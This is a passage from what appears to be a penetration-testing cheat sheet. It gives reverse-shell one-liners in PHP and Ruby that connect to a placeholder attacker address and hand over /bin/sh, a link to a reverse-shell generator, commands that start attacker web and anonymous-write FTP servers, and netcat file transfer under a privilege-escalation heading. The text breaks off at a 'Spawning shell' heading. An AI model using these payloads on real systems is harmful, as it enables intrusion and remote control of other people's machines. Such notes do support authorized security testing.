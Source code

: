 ```bash
<?php $sock = fsockopen("$IP",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>

php -r '$sock=fsockopen("x.x.x.x",6969);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",6969).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#OR use rsg

https://github.com/mthbernardes/rsg
rsg <interface> <port>

```
# Privilege escalation

## Common

### Set up Webserver
```bash
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
https://github.com/sc0tfree/updogupdog

```
```python
import SimpleHTTPServer
import SocketServer
PORT = 8000
Handler = SimpleHTTPServer.SimpleHTTPRequestHandler
httpd = SocketServer.TCPServer(("", PORT), Handler)
print "serving at port", PORT
httpd.serve_forever()

```

### Set up FTP Server

```bash
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w

```
### Filet ransfer
```bash
#On sending machine
nc -w 3 [destination] 1234 < send.file

#on receiving end:
cmd /c nc.exe -l -v -p 1234 > PsExec.exe

```
## Linux
* Useful commands
```bash
# Spawning shell
```